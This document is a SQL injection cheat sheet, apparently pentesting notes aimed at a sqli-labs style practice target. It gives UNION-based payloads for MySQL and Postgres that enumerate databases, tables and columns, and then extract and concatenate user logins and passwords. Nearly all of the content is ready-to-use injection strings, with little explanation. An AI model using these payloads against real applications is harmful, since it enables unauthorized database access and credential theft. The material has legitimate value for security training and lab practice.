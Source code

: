 
#### Finding databases

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, datname from pg_database`

#### Finding table names from a database

**mysql**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"
```

**postgres**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"
```

#### Finding column names from a table

**mysql**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"
```
**postgres**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"
```

#### Concatenate

Example:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login from users;`
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, password from users;`

in one query

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql**
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**


### Error Based SQLI (USUALLY MS-SQL)
